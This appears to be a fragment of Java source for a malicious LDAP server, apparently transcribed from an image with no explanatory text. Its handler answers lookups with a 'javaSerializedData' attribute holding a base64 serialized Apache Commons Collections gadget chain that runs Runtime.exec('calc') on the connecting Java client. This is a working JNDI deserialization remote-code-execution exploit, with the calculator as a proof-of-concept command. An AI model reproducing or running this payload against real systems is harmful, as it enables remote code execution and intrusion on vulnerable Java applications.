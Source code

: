 ```java
            String base = result.getRequest().getBaseDN();

            Entry entry = new Entry(base);
            entry.addAttribute("javaClassName", "hahaha");

            try {
                entry.addAttribute("javaSerializedData", Base64.decode("rO0ABXNyABFqYXZhLnV0aWwuSGFzaFNldLpEhZWWuLc0AwAAeHB3DAAAAAI/QAAAAAAAAXNyADRv" +
                        "cmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMua2V5dmFsdWUuVGllZE1hcEVudHJ5iq3SmznB" +
                        "H9sCAAJMAANrZXl0ABJMamF2YS9sYW5nL09iamVjdDtMAANtYXB0AA9MamF2YS91dGlsL01hcDt4" +
                        "cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSC" +
                        "nnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5z" +
                        "Zm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFp" +
                        "bmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUv" +
                        "Y29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy5hcGFjaGUuY29tbW9u" +
                        "cy5jb2xsZWN0aW9ucy5UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hl" +
                        "LmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGU" +
                        "AgABTAAJaUNvbnN0YW50cQB+AAN4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBz" +
                        "cgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkludm9rZXJUcmFuc2Zv" +
                        "cm1lcofo/2t7fM44AgADWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7TAALaU1ldGhvZE5h" +
                        "bWV0ABJMamF2YS9sYW5nL1N0cmluZztbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNz" +
                        "O3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAnQACmdldFJ1bnRpbWV1" +
                        "cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAB0AAlnZXRNZXRob2R1cQB+ABsA" +
                        "AAACdnIAEGphdmEubGFuZy5TdHJpbmeg8KQ4ejuzQgIAAHhwdnEAfgAbc3EAfgATdXEAfgAYAAAA" +
                        "AnB1cQB+ABgAAAAAdAAGaW52b2tldXEAfgAbAAAAAnZyABBqYXZhLmxhbmcuT2JqZWN0AAAAAAAA" +
                        "AAAAAAB4cHZxAH4AGHNxAH4AE3VyABNbTGphdmEubGFuZy5TdHJpbmc7rdJW5+kde0cCAAB4cAAA" +
                        "AAF0AARjYWxjdAAEZXhlY3VxAH4AGwAAAAFxAH4AIHNxAH4AD3NyABFqYXZhLmxhbmcuSW50ZWdl" +
                        "chLioKT3gYc4AgABSQAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAB" +
                        "c3IAEWphdmEudXRpbC5IYXNoTWFwBQfawcMWYNEDAAJGAApsb2FkRmFjdG9ySQAJdGhyZXNob2xk" +
                        "eHA/QAAAAAAAAHcIAAAAEAAAAAB4eHg="));
                result.sendSearchEntry(entry);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            }catch (Exception e){
                e.printStackTrace();
            }
        }
    }
}




```